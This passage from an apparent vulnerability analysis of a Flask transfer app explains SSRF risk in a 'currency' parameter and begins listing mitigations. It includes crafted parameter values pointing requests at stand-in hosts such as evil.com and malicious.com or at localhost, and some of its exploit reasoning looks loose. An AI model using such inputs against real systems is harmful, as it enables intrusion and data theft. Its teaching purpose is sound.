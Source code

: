 - **Exploitation Scenario**:
  - **Bypassing Form Controls**: Although the form presents a dropdown with limited currency options, an attacker can bypass these controls by crafting a custom HTTP request, supplying a malicious `currency` value.
  - **Constructing Malicious URLs**: For example, an attacker might set `currency` to a value like `EUR&redirect=http://evil.com`, leading to unintended behavior if the API endpoint processes additional parameters insecurely.
  - **DNS Rebinding or Internal Network Access**: By manipulating the `currency` parameter, an attacker could direct the server to make requests to internal services (e.g., `currency=localhost`) or external malicious servers.

### **3. Insufficient Access Controls**

```python
@app.before_request
def block_internal_requests():
    # Prevent access to internal APIs from external requests
    if request.endpoint == 'get_exchange_rate':
        abort(404)
```

- **Issue**: The `before_request` function attempts to block direct access to internal endpoints. However, since `get_exchange_rate` is not exposed as a route, this protection is ineffective against SSRF attacks where internal functions are invoked indirectly through other routes.

## **Exploitation Example**

An attacker crafts a POST request to the `/transfer` endpoint with the following form data:

- `account`: `123456789`
- `amount`: `1000`
- `currency`: `EUR,http://malicious.com`

This manipulates the API URL construction in `get_exchange_rate` to:

```
http://api.exchangerates.example/internal?source=USD&target=EUR,http://malicious.com
```

If the internal API does not properly handle or sanitize the `target` parameter, the server may inadvertently make a request to `http://malicious.com`, allowing the attacker to interact with internal services or exfiltrate data.

## **Mitigation Strategies and Best Practices**

To prevent SSRF and similar vulnerabilities, developers should adopt the following best practices:

### **1. Input Validation and Sanitization**

- **Whitelist Inputs**: Validate user-supplied data against a whitelist of acceptable values. For the `currency` parameter, ensure it matches one of the predefined currency codes.

    ```python
    ALLOWED_CURRENCIES = {'EUR', 'GBP', 'JPY'}
